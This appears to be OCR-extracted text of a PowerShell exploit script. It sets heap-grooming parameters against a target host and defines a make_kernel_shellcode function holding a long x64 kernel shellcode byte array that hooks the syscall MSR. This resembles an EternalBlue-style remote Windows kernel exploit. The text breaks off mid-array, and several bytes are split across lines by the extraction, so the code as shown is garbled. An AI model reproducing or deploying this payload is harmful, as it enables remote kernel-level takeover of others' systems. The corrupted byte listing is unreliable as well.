 function Myfun($Target)
{
#$Target=Read-Host
$InitialGrooms=12
$MaxAttempts=12
#$Shellcode= Get-Content "sc_x64.bin"
#Write-Host "Myfunction is done"
#Write-Host $Target

$enc = [system.Text.Encoding]::ASCII


$GROOM_DELTA = 5


function make_kernel_shellcode {
    [Byte[]] $shellcode =@(0x55,0xE8,0x2E,0x00,0x00,0x00,0xB9,0x82,0x00,0x00,0xC0,0x0F,0x32,0x4C,0x8D,0x0D,0x34,0x00,0x00,0x00,0x44,0x39,0xC8,0x74,0x19,0x39,0x45,0x00,0x74,0x0A,0x89,0x55,0x04,0x89,0x45,0x00,0xC6,0x45,0xF8,0x00,0x49,0x91,0x50,
0x5A,0x48,0xC1,0xEA,0x20,0x0F,0x30,0x5D,0xC3,0x48,0x8D,0x2D,0x00,0x10,0x00,0x00
,0x48,0xC1,0xED,0x0C,0x48,0xC1,0xE5,0x0C,0x48,0x83,0xED,0x70,0xC3,0x0F,0x01,0xF8,0x65,0x48,0x89,0x24,0x25,0x10,0x00,0x00,0x00,0x65,0x48,0x8B,0x24,0x25,0xA8,0x01,0x00,0x00,0x6A,0x2B,0x65,0xFF,0x34,0x25,0x10,0x00,0x00,0x00,0x50,0x50,0x55,0xE8,0xC5,0xFF,0xFF,0xFF,0x48,0x8B,0x45,0x00,0x48,0x83,0xC0,0x1F,0x48,0x89,0x44,
0x24,0x10,0x51,0x52,0x41,0x50,0x41,0x51,0x41,0x52,0x41,0x53,0x31,0xC0,0xB2,0x01,0xF0,0x0F,0xB0,0x55,0xF8,0x75,0x14,0xB9,0x82,0x00,0x00,0xC0,0x8B,0x45,0x00,0x8B,0x55,0x04,0x0F,0x30,0xFB,0xE8,0x0E,0x00,0x00,0x00,0xFA,0x41,0x5B,0x41,0x5A,0x41,0x59,0x41,0x58,0x5A,0x59,0x5D,0x58,0xC3,0x41,0x57,0x41,0x56,0x57,0x56,0x53,0x50,0x4C,0x8B,0x7D,0x00,0x49,0xC1,0xEF,0x0C,0x49,0xC1,0xE7,0x0C,0x49,0x81,0xEF,
0x00,0x10,0x00,0x00,0x66,0x41,0x81,0x3F,0x4D,0x5A,0x75,0xF1,0x4C,0x89,0x7D,0x08
,0x65,0x4C,0x8B,0x34,0x25,0x88,0x01,0x00,0x00,0xBF,0x78,0x7C,0xF4,0xDB,0xE8,0x0
1,0x01,0x00,0x00,0x48,0x91,0xBF,0x3F,0x5F,0x64,0x77,0xE8,0xFC,0x00,0x00,0x00,0x8B,0x40,0x03,0x89,0xC3,0x3D,0x00,0x04,0x00,0x00,0x72,0x03,0x83,0xC0,0x10,0x48,0x8D,0x50,0x28,0x4C,0x8D,0x04,0x11,0x4D,0x89,0xC1,0x4D,0x8B,0x09,0x4D,0x39,0xC8,
0x0F,0x84,0xC6,0x00,0x00,0x00,0x4C,0x89,0xC8,0x4C,0x29,0xF0,0x48,0x3D,0x00,0x07
,0x00,0x00,0x77,0xE6,0x4D,0x29,0xCE,0xBF,0xE1,0x14,0x01,0x17,0xE8,0xBB,0x00,0x0
0,0x00,0x8B,0x78,0x03,0x83,0xC7,0x08,0x48,0x8D,0x34,0x19,0xE8,0xF4,0x00,0x00,0x00,0x3D,0x5A,0x6A,0xFA,0xC1,0x74,0x10,0x3D,0xD8,0x83,0xE0,0x3E,0x74,0x09,0x48,0x8B,0x0C,0x39,0x48,0x29,0xF9,0xEB,0xE0,0xBF,0x48,0xB8,0x18,0xB8,0xE8,0x84,0x00,
0x00,0x00,0x48,0x89,0x45,0xF0,0x48,0x8D,0x34,0x11,0x48,0x89,0xF3,0x48,0x8B,0x5B
,0x08,0x48,0x39,0xDE,0x74,0xF7,0x4A,0x8D,0x14,0x33,0xBF,0x3E,0x4C,0xF8,0xCE,0xE
8,0x69,0x00,0x00,0x00,0x8B,0x40,0x03,0x48,0x83,0x7C,0x02,0xF8,0x00,0x74,0xDE,0x48,0x8D,0x4D,0x10,0x4D,0x31,0xC0,0x4C,0x8D,0x0D,0xA9,0x00,0x00,0x00,0x55,0x6A,0x01,0x55,0x41,0x50,0x48,0x83,0xEC,0x20,0xBF,0xC4,0x5C,0x19,0x6D,0xE8,0x35,0x00,
0x00,0x00,0x48,0x8D,0x4D,0x10,0x4D,0x31,0xC9,0xBF,0x34,0x46,0xCC,0xAF,0xE8,0x24
,0x00,0x00,0x00,0x48,0x83,0xC4,0x40,0x85,0xC0,0x74,0xA3,0x48,0x8B,0x45,0x20,0x8
0,0x78,0x1A,0x01,0x74,0x09,0x48,0x89,0x00,0x48,0x89,0x40,0x08,0xEB,0x90,0x58,0x5B,0x5E,0x5F,0x41,0x5E,0x41,0x5F,0xC3,0xE8,0x02,0x00,0x00,0x00,0xFF,0xE0,0x53,0x51,0x56,0x41,0x8B,0x47,0x3C,0x41,0x8B,0x84,0x07,0x88,0x00,0x00,0x00,0x4C,0x01,
0xF8,0x50,0x8B,0x48,0x18,0x8B,0x58,0x20,0x4C,0x01,0xFB,0xFF,0xC9,0x8B,0x34,0x8B
,0x4C,0x01,0xFE,0xE8,0x1F,0x00,0x00,0x00,0x39,0xF8,0x75,0xEF,0x58,0x8B,0x58,0x2
4,0x4C,0x01,0xFB,0x66,0x8B,0x0C,0x4B,0x8B,0x58,0x1C,0x4C,0x01,0xFB,0x8B,0x04,0x8B,0x4C,0x01,0xF8,0x5E,0x59,0x5B,0xC3,0x52,0x31,0xC0,0x99,0xAC,0xC1,0xCA,0x0D,0x01,0xC2,0x85,0xC0,0x75,0xF6,0x92,0x5A,0xC3,0x55,0x53,0x57,0x56,0x41,0x57,0x49,
0x8B,0x28,0x4C,0x8B,0x7D,0x08,0x52,0x5E,0x4C,0x89,0xCB,0x31,0xC0,0x44,0x0F,0x22
,0xC0,0x48,0x89,0x02,0x89,0xC1,0x48,0xF7,0xD1,0x49,0x89,0xC0,0xB0,0x40,0x50,0xC
1,0xE0,0x06,0x50,0x49,0x89,0x01,0x48,0x83,0xEC,0x20,0xBF,0xEA,0x99,0x6E,0x57,0xE8,0x65,0xFF,0xFF,0xFF,0x48,0x83,0xC4,0x30,0x85,0xC0,0x75,0x45,0x48,0x8B,0x3E,0x48,0x8D,0x35,0x4D,0x00,0x00,0x00,0xB9,0x00,0x06,0x00,0x00,0xF3,0xA4,0x48,0x8B,
0x45,0xF0,0x48,0x8B,0x40,0x18,0x48,0x8B,0x40,0x20,0x48,0x8B,0x00,0x66,0x83,0x78
,0x48,0x18,0x75,0xF6,0x48,0x8B,0x50,0x50,0x81,0x7A,0x0C,0x33,0x00,0x32,0x00,0x7
5,0xE9,0x4C,0x8B,0x78,0x20,0xBF,0x5E,0x51,0x5E,0x83,0xE8,0x22,0xFF,0xFF,0xFF,0x48,0x89,0x03,0x31,0xC9,0x88,0x4D,0xF8,0xB1,0x01,0x44,0x0F,0x22,0xC1,0x41,0x5F,0x5E,0x5F,0x5B,0x5D,0xC3,0x48,0x92,0x31,0xC9,0x51,0x51,0x49,0x89,0xC9,0x4C,0x8D,
0x05,0x0D,0x00,0x00,0x00,0x89,0xCA,0x48,0x83,0xEC,0x20,0xFF,0xD0,0x48,0x83,0xC4
,0x30,0xC3,0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC0,0x00,0x00,0x00,0x41,0x51,0x41,0x5